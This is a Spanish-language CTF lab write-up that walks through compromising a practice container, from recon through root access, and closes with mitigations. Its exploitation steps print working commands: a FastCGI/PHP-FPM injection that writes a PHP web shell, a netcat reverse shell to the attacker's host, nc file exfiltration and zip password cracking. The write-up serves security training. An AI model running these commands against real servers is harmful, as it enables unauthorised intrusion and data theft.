<h1 align="center">[Writeup] Vulnerable2 - Reporte de Vulnerabilidad</h1>

**Dificultad:** Difícil (★★★★★☆☆☆)

**Categoría:** Web / Descubrimiento de artefactos / Descubrimiento de credenciales / Escalada de privilegios

**Autor:** SBZTNGNR

**Fecha**: 24-09-2026

**Plataforma**: WhoAmI-Labs.com

---


# Descripción
"Reto de análisis forense ligero y explotación web. Los analistas deben descubrir artefactos ocultos mediante análisis de binarios/imágenes (steganografía / binwalk) y encadenar el hallazgo con escalada SUID."

---

# 1. Descubrimiento

## 1.1 Escaneo con NMap:

El primer paso consistió en identificar los servicios activos y las versiones de software ejecutándose en el objetivo `172.17.0.2`. Para ello, se lanzó un escaneo de puertos con `nmap`:

```bash
nmap -sV -sC -p- --min-rate 5000 172.17.0.2
```


*Puertos activos: 21 (FTP), 22 (SSH), 25 (SMPT), 80 (HTTP), 873 (RSYNC), 9000 (Desconocido)*
## 1 .2 Enumeración con Gobuster:

Se realizó la primera enumeración al puerto 80, con el comando:
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -x html,php,jpg,jpeg,txt,gif,bin,sh,zip,rar --exclude-length 8590
```


**Explicación del comando:**
Dada la descripción del laboratorio (.*.. Los analistas deben descubrir artefactos ocultos mediante análisis de binarios/imágenes...*) Se opto por agregar extensiones del tipo imagenes/binarios, en caso de encontrar algo en los directorios web del puerto 80. Finalmente, solo se encontró un archivo (portal.php) con un panel de acceso, del cual credenciales no tenemos, ni pagina de registro.



Ya que no se tenia identificado el servicio corriendo en el puerto 9000, se intento un escaneo tanto con nmap y gobuster

Todas las combinaciones que probamos en el puerto 9000 con nmap dieron como resultado:
```bash
PORT     STATE SERVICE     VERSION
9000/tcp open  cslistener?
MAC Address: 3F:54:C8:63:BB:3D (Unknown)

```

Resultado Gobuster:
```bash
2026/09/24 10:51:20 error on running gobuster on http://172.17.0.2:9000/: unable to connect to http://172.17.0.2:9000/: Get "http://172.17.0.2:9000/": read tcp 172.17.0.1:56266->172.17.0.2:9000: read: connection reset by peer
```

Dados estos resultados, se optó por dejar ese puerto Stand-By... por un rato.

## 1.3 Busqueda FTP/SSH/SMPT/RSYNC

**FTP:**
Durante el escaneo se identificó el **puerto 21** como: *vsftpd (Misconfigured)*. Al parecer no era accesible debido a una mala configuración, ya que daba la siguiente respuesta al momento de intentar conectar:

```bash
>ftp 172.17.0.2                                                                        
Connected to 172.17.0.2.
500 OOPS: 500 OOPS: child died
ftp> bye
```

**SSH:**
Con lo poco que teniamos se intento hacer fuerza bruta al puerto **22/SSH** con un usuario cualquiera, solo para probar (novamarketing) con cero resultados positivos.

**SMPT:**
Seguiamos con racha negativa, ya que al intentar hacer una conexion al puerto **25/SMPT**.
Solo obtuvimos una respuesta, aunque positiva, pero sin posibilidades de interactuar en profundidad con el servicio. Respuesta:
```bash
>nc 172.17.0.2 25
220 mail.novamarketing.local ESMTP Postfix
```

**RSYNC**:
Al pasarnos al siguiente puerto, obtuvimos mejores resultados. al interactuar con este servicio, nos devolvió una respuesta positiva:
```bash
>rsync -av rsync://172.17.0.2/     
backup         

>rsync -av rsync://172.17.0.2/backup/
receiving incremental file list
drwxr-xr-x          4.096 2026/09/24 10:08:22 .
-rw-r--r--             36 2026/09/24 10:08:22 archive_log.txt

sent 20 bytes  received 69 bytes  178,00 bytes/sec
total size is 36  speedup is 0,40

#Para descargarlo se hace con el mismo comando y agregando la ruta al final, en este caso le agregué el . para que se descargué en la misma carpeta donde esta la shell

>rsync -av rsync://172.17.0.2/backup/ .            
receiving incremental file list
./
archive_log.txt

sent 46 bytes  received 155 bytes  402,00 bytes/sec
total size is 36  speedup is 0,18

```

El resultado del archivo extraido desde el puerto 25, no nos dió muchas pistas tampoco.
Contenido de **archive_log.txt**
```text
NovaMarketing Backup Archive v1.0.4
```

# 2. Explotación Web:

## 2.1 Reconocimiento y Pruebas:

Volviendo a enumerar los servicios web en el puerto 80:
```python
>whatweb http://172.17.0.2/

http://172.17.0.2/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.30.4], IP[172.17.0.2], PHP[8.2.33], Title[NovaMarketing Agency | Digital Growth & Performance], X-Powered-By[PHP/8.2.33], nginx[1.30.4]
```

La presencia de Nginx y PHP 8.2 nos llevó a considerar PHP-FPM como posible backend para la ejecución de PHP. La detección del puerto 9000 reforzó esta hipótesis, ya que PHP-FPM suele utilizar este puerto para conexiones FastCGI. Posteriormente comprobamos que el servicio aceptaba conexiones FastCGI.

**Prueba 1:**
```php
cgi-fcgi -bind -connect 172.17.0.2:9000
```
**Respuesta:**
```bash
X-Powered-By: PHP/8.2.33
Content-type: text/html; charset=UTF-8
```
*No muy concluyente, pero es una respuesta que antes no obtuvimos mediante diferentes pruebas*

**Prueba 2:**
```bash
SCRIPT_FILENAME=/var/www/html/index.php \
REQUEST_METHOD=GET \
cgi-fcgi -bind -connect 172.17.0.2:9000
```
**Respuesta:**


Esto ya es más concluyente y nos da la idea de que si existe FastCGI corriendo en el backend, por ende el mapa sería algo como:
```php
172.17.0.2:9000
 ↓
FastCGI
 ↓
PHP-FPM
 ↓
index.php
```

## 2.2 Explotación y Acceso Inicial:

Para el siguiente paso intentamos ver si podemos crear archivos dentro del sistema, mas especificamente para el control del mismo, para ello usamos la siguiente cadena de pasos (utilizando **URL encoding (percent-encoding)** para codificar los caracteres después de **data://**):

creación del archivo malicioso (cmd.php):
```bash
PHP_VALUE=$'allow_url_include=1\nauto_prepend_file=data://text/plain,%3C%3Fphp%20file_put_contents%28%22/tmp/cmd.php%22%2C%27%3C%3Fphp%20echo%20shell_exec%28%24_GET%5B%22c%22%5D%29%3B%20%3F%3E%27%29%3B%20%3F%3E' \
SCRIPT_FILENAME=/var/www/html/index.php \
REQUEST_METHOD=GET \
cgi-fcgi -bind -connect 172.17.0.2:9000
```


Comprobar cmd.php:
```bash
SCRIPT_FILENAME=/tmp/cmd.php \
REQUEST_METHOD=GET \
QUERY_STRING='c=id' \
cgi-fcgi -bind -connect 172.17.0.2:9000
```


Finalmente para no correr todos los comandos mediante Fast-CGI. Abrimos una shell para hacerlo más cómodo (poniendo nuestra maquina atacante a la escucha en el puerto 4444:
```bash
nc -lvnp 4444
```
 
 Shell:
```bash
SCRIPT_FILENAME=/tmp/cmd.php \
REQUEST_METHOD=GET \
QUERY_STRING='c=nc%20-v%20172.17.0.1%204444%20-e%20/bin/sh%202%3E%261' \
cgi-fcgi -bind -connect 172.17.0.2:9000
```

y obtenemos acceso:



**Explicación del comando:**

**-PHP_VALUE**=... → Modifica temporalmente la configuración de PHP y utiliza auto_prepend_file para ejecutar código antes de index.php, creando /tmp/cmd.php.
**S-CRIPT_FILENAME**=... → Indica a PHP-FPM qué archivo PHP debe procesar.
**-REQUEST_METHOD**=GET → Define el método HTTP de la petición como GET.
cgi-fcgi -bind -connect ... → Se conecta directamente al servicio FastCGI/PHP-FPM en el puerto 9000.

---

# 3. Enumeración Para Escalada de Privilegios:
## 3.1 **Análisis y explotación de binarios SUID**

Tal y como lo decía la descripción (*...y encadenar el hallazgo con escalada SUID...*), iniciamos directamente con la enumeración de SUIDs:
```bash
find / -perm -4000 -type f 2>/dev/null
```
encontrando los siguientes binarios:
```
/usr/local/bin/diagtool
/usr/local/bin/sysstats
/usr/local/sbin/sys_audit
/bin/busybox
```



Se probaron los binarios con diferentes parámetros y combinaciones de argumentos, buscando comportamientos que pudieran permitir la ejecución de comandos con los privilegios del propietario. Paralelamente, se realizó un análisis estático básico mediante `strings`, con el objetivo de identificar llamadas a comandos externos, rutas, funciones o cadenas que pudieran revelar una posible vía de explotación.

También se revisaron herramientas del sistema que podían resultar útiles para la escalada, incluyendo BusyBox. Sin embargo, algunas de las técnicas habituales, como intentar utilizar `busybox sh -p`, se encontraban restringidas o no disponibles en este entorno.

Esta fue una de las etapas que requirió mayor cantidad de pruebas, ya que los binarios encontrados no ofrecían una vía de explotación evidente. En lugar de documentar cada comando y cada prueba realizada, se resumen aquí las técnicas de análisis utilizadas y los resultados relevantes que permitieron descartar diferentes alternativas.

###  -Tareas Cron:
Se encontró una tarea cron dentro de **/etc/crontabs** con la siguiente cadena:  * * * * * root /etc/logrotate_sys.sh. Luego revisamos **logrotate.sh** y contenía: 
```bash
#!/bin/sh
echo "[system-check] $(date) execution ok" >> /var/log/syscheck.log
```

Así que revisamos la ruta, encontrando nulos resultados de **syscheck.log** ni esperando el minuto en que se ejecuta el cron:


Revisamos los procesos y no encontramos ningún cron corriendo, eso explicaría el por qué no se creaba el archivo **syscheck.log** en **/var/log/**. Mirando lo procesos se puede observar **sys-daemon** corriendo dos veces y al analizarlo mediante **strings** nos damos cuenta que es el archivo que corre el laboratorio completo sin grandes hallazgos para nuestros propósitos:


PD: se encontro una credencial en la carpeta **/var/www/html/portal.php**:
```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = $_POST['username'] ?? '';
    $pass = $_POST['password'] ?? '';
    if ($user === 'admin' && $pass === 'wP!X9$kL2#mQv8@yT5*nRz7^cJ4&hF1') {
        $_SESSION['user'] = 'admin';
    } else {
        $msg = '<div class="alert danger">Credenciales inválidas. Por motivos de seguridad, los intentos quedan registrados.</div>';
    }
}
?>
```

La cual servia para identificarse como **admin** en la página web (http:172.17.0.2/portal.php)


## 3.2 Explotación y Acceso a root

Sin grandes hallazgos para nuestra finalidad, nos decidimos a buscar imágenes/binarios, que era una parte de la descripción del laboratorio (*...Los analistas deben descubrir artefactos ocultos mediante análisis de binarios/imágenes (steganografía / binwalk) y encadenar el hallazgo con escalada SUID...*), aunque se creía que era un paso previo antes del acceso al sistema, era una parte que faltaba y las opciones se habían agotado, por ende usamos:
```bash
find / -type f \( -name "*.bin" -o -name "*.img"  -o -name "*.jpg" -o -name "*.jpg" -o -name "*.gif" -o -name "*.iso" -o -name "*.zip" \) 2>/dev/null
```

Dando como resultado un solo archivo .bin:


Al analizarlo con **strings** obtuvimos lo que al parecer refería la descripción:


No teniendo herramientas suficientes en el contenedor decidimos traerlo a nuestra máquina Kali para su posterior inspección:

En nuestro Kali (máquina atacante):
```bash
nc -lvnp 5555 > system.bin
```

Desde la máquina victima:
```bash
nc 172.17.0.1 5555 < /usr/lib/firmware/system.bin
```



Teniendo el archivo en nuestra máquina, ya es más fácil poder hacer el analisis de este archivo:
```bash
binwalk system.bin
```

```bash
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
102400        0x19000         Zip archive data, encrypted at least v1.0 to extract, compressed size: 37, uncompressed size: 25, name: root_password.txt
102615        0x190D7         End of Zip archive, footer length: 22

```
Y posteriormente:
```bash
binwalk -e system.bin
```

```bash
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
102400        0x19000         Zip archive data, encrypted at least v1.0 to extract, compressed size: 37, uncompressed size: 25, name: root_password.txt

WARNING: One or more files failed to extract: either no utility was found or it's unimplemented

# El error se debe a que el archivo dentro del .zip (19000.zip) estaba protegido con contraseña
```

Extraído en la ruta  **system.bin.extracted/19000.zip**, se procede a obtener el hash mediante **zip2john**:
```bash
zip2john 19000.zip > zip.hash
```

Luego se procede a "crackear" la contraseña del .zip con **john**:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
```


Luego solo queda descomprimir el archivo:
```bash
unzip -P 'marketing123' 19000.zip
```


Y obtenemos:
```text
SuperNovaSecurePass2026!
```

Volvemos a la shell a probar la cadena obtenida:


Y efectivamente obtenemos el usuario root con la flag:

```text
VULNERABLE_2{w0rdpr3ss_rce_t0_su1d_pr1v3sc}
```


# 4. Mitigaciones

- **Restringir PHP-FPM:** PHP-FPM no debería estar expuesto directamente a redes no confiables. Se recomienda utilizar un socket Unix o limitar `listen` a `127.0.0.1`, además de configurar adecuadamente `listen.allowed_clients` cuando corresponda.
- **Revisar la configuración de PHP:** Deshabilitar opciones peligrosas como `allow_url_include` cuando no sean necesarias y evitar configuraciones que permitan modificar parámetros sensibles de PHP mediante peticiones FastCGI.
